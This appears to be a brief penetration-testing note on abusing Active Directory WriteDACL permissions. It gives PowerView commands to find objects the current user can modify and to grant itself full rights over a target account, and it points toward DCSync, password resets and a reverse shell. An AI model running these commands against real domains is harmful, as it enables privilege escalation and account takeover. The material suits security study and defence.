


## Enumeration And Exploit
One object access right in particular (_WriteDACL_) grants permission to modify the DACL itself.

We can enumerate misconfigured user accounts with the following command:
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```



Finding a domain object(for instance a user) with WriteDACL access rights, we can add new access rights like GenericAll.
We can use the Add-DomainObjectAcl PowerView method to apply additional access rights such as GenericAll, GenericWrite, or even [_DCSync_](https://adsecurity.org/?p=1729) if the targeted object is the domain object.

```Powershell
Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All
```
(we can use the same command to verify that the rights have been changed)



We can now proceed to change the password of the user or create a process as them to get a reverse shell.

